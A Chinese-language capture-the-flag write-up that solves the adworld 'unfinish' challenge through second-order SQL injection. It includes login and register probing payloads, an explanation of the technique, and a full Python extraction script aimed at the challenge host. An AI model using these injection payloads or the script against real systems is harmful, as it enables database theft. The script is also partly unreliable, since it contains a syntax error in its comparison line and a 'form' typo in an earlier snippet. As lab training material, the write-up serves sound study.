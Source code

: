 ### unfinish-adworld

已经说了是一个sql问题，首先是一个登录框。抓包看到是post页面，有框你不注？直接开干

首先盲注，注入` 'or 1=1 -- '`分别注入在passwd和Email。显示email格式不对

对email构造符合要求的格式，先猜测passwd有注入，构造后显示密码错误。

接着时间盲注，`'or sleep(5) -- '`也没有任何正确回显。布尔盲注也没有任何信息。难道要在email上做绕过吗？



当然不，使用dirsearch可以看到有一个注册页面

![image-20240914112135000](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240914112135000.png)

使用register可以获得一个注册页面，依然尝试进行一个基本的sql注入，没有任何回显



猜测可能的路径：注册页面是以insert into语句向表单插入语句，而在login页面进行select的查询

偷偷看到了下思路，是构造二次注入，这个内容是以前不了解的。

### 二次注入

靶场sqli-labs/Less24

满足这两个条件即可

- 用户向数据库插入恶意数据，即使后端对语句做了转义，如mysql_escape_string、mysql_real_escape_string等函数
- 数据库能够将恶意数据取出

二次注入可以理解为，**攻击者构造的恶意数据存储在数据库**后，**恶意数据被读取并进入到SQL查询语句**所导致的注入。防御者即使对用户输入的恶意数据进行转义，当数据插入到数据库中时被处理的数据又被还原，Web程序调用存储在数据库中的恶意数据并执行SQL查询时，就发生了SQL二次注入。



但是我根据思路进行poc，首先在register的username处注入`1'select `,并不会回到登录页面

而`，`号在username加入会导致被抓到，需要进行字典爆破fuzz，

重新验证username的注入，在其中注入

```
123' and 'abc
```

如果username有注入，其运算结果应该是0

![image-20240914175041757](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240914175041757.png)

验证成功，确实是0



那可以仿照上次的一道sql题，bbuoj的easy_sql一样，根据回显信息，构造出简单的脚本，来枚举出sql



根据我们的经验，ctf的题一般就是flag表的flag，我们直接抓这个表试试

```
"username":f"0'+ascii(substr(select * form flag)from {i} for 1)
```

这里目的就是构造出username的相加，每次顺序抓取一个字符，直到flag到}，输出

完整脚本

```python
import requests
import re
from time import sleep

def search():
    flag = ''
    s1 = requests.Session()
    url = 'http://61.147.171.105:58606/'
    url1 = url+'register.php'
    url2 = url+'login.php'
    url3 = url+'index.php'
    for i in range(100):
        sleep(0.3)
        data1 = {"email":f"123a{i}@1.com","username":f"0'+ascii(substr((select * from flag) from {i} for 1))+'0;","password":"123"}
        data2 = {"email":f"123a{i}@1.com","password":"123"}
        s1.post(url1,data=data1)
        s1.post(url2,data=data2)
        r1 = s1.get(url3).text
        res = re.search(r'<span class="user-name">\s+(\d+)\s+</span>',r1).group(1)
        flag = flag+chr(int(res))
        if flag[-1]='}':
            print(flag)
            break

if __name__ == '__main__':
    search()
```

成功拿下![image-20240915235314218](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240915235314218.png)